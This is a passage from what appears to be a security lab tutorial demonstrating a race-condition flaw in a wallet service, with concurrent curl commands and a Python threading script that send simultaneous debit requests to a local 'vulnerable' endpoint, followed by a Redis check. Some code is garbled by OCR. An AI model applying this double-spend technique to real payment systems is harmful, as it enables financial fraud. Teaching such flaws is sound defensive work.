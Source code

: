         ```bash
        # Terminal 1
        curl -X POST -H "Content-Type: application/json" -d '{"user_id": "user123", "amount": -50}' http://localhost:8080/wallets/balance/vulnerable &
        
        # Terminal 2 (execute immediately after Terminal 1)
        curl -X POST -H "Content-Type: application/json" -d '{"user_id": "user123", "amount": -50}' http://localhost:8080/wallets/balance/vulnerable &
        ```
        
    - **Using Python (more reliable for concurrency):**Python
        
        ```python
        import requests
        import json
        import threading
        
        url = "http://localhost:8080/wallets/balance/vulnerable"
        payload = {"user_id": "user123", "amount": -50}
        headers = {"Content-Type": "application/json"}
        
        def send_request():
            try:
                response = requests.post(url, data=json.dumps(payload), headers=headers)
                print(f"Response: {response.status_code} - {response.text}")
            except Exception as e:
                print(f"Error sending request: {e}")
        
        # Send multiple concurrent requests
        threads =
        for _ in range(2): # Send 2 concurrent requests
            thread = threading.Thread(target=send_request)
            threads.append(thread)
            thread.start()
        
        for thread in threads:
            thread.join()
        
        print("\nAll requests sent. Check final balance in Redis.")
        
        ```
        
5. **Observe Results:**
    - Examine the responses from the application. You might observe both requests reporting a successful debit, but the reported `New Balance` might be inconsistent.
    - Crucially, query the final balance in Redis using `redis-cli`:
    Bash
        
        `redis-cli GET wallet:user123`
        

**Expected Outcome (Vulnerable):**
